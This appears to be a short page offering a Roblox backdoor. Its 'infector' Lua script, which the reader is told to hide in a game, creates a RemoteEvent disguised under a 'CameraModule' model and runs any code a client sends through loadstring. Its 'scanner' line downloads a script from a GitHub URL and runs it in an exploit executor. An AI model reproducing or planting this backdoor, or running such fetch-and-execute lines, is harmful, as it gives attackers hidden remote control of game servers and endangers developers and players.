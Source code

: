 This is top notch

INFECTOR: (TURN ON LOADSTRINGENABLED IN SERVERSCRIPTSERVICE IN THE GAME YOU ARE WORKING ON, THEN HIDE THIS SCRIPT SOMEWHERE)
```lua
--turn on loadstring in serverscriptservice

local event = Instance.new("RemoteEvent")
local cammodel = Instance.new("Model",workspace)
cammodel.Name = "CameraModule"
local campart = Instance.new("Part",cammodel)
campart.Name = "CameraPart"

event.Name = "GAVNBYBIR8IPDHS"

event.Parent = campart

event.OnServerEvent:Connect(function(plr,script)
	local code = loadstring(script)
	if code then
		code()
	end
end)
```

SCANNER: (RUN IN EXECUTOR)
```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/awz3153/3153-BackdoorScanner/refs/heads/main/SCANNER.lua"))()
```
